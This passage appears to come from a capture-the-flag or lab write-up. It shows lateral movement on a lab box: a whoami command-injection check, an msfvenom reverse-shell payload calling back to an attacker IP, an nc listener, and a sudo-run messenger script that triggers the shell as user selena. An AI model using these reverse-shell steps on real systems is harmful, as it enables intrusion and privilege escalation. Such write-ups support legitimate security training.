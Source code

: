 > Yes it does! Our `whoami` command got executed.
{: .prompt-info }

Lets generate a simple reverse shell we place on the target and then execute with the script to get a shell as user `selena`.
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.186 LPORT=80 -f elf > revshell
PG::Coder.new(hash) is deprecated. Please use keyword arguments instead! Called from /usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/activerecord-7.0.4.3/lib/active_record/connection_adapters/postgresql_adapter.rb:980:in `new'
PG::Coder.new(hash) is deprecated. Please use keyword arguments instead! Called from /usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/activerecord-7.0.4.3/lib/active_record/connection_adapters/postgresql_adapter.rb:980:in `new'
PG::Coder.new(hash) is deprecated. Please use keyword arguments instead! Called from /usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/activerecord-7.0.4.3/lib/active_record/connection_adapters/postgresql_adapter.rb:980:in `new'
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes

$ scp -i id_rsa revshell ariana@192.168.182.95:/tmp/revshell

ariana@pwned:~$ chmod +x /tmp/revshell
```

Start a listener on the attacker machine.
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

Now back on the target machine we execute the vulnerable script again and trigger our reverse shell.
```bash
$ sudo -u selena /home/messenger.sh
Welcome to linux.messenger 


ariana:
selena:
ftpuser:

Enter username to send message : ariana

Enter message for ariana :/tmp/revshell

Sending message to ariana 
```

Catch connection from target.
```bash
$ nc -lvp 80
listening on [any] 80 ...
192.168.182.95: inverse host lookup failed: Unknown host
connect to [192.168.45.186] from (UNKNOWN) [192.168.182.95] 42936
id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```
